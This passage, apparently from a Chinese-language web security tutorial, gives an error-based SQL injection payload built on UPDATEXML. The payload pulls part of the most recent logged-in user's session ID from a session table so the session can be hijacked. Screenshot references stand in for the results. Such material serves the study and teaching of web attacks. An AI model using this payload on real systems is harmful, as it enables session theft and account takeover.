 现在，我们需要使用的第二个 SQL 会话负载如下：

```
(UPDATEXML(2170,CONCAT(0x2e,0x414243,(SELECT MID(session_id,16,42) FROM ntnsi_session where userid!=0 order by time desc LIMIT 1),0x414243),4879))
```

如下所示：

![](img/35074079-65cf-465d-b0fb-39a9517c5b64.png)

执行前述 SQL 负载`2`的结果如下所示：

![](img/2c331c46-13d5-4910-99a2-242eb36e4c71.png)

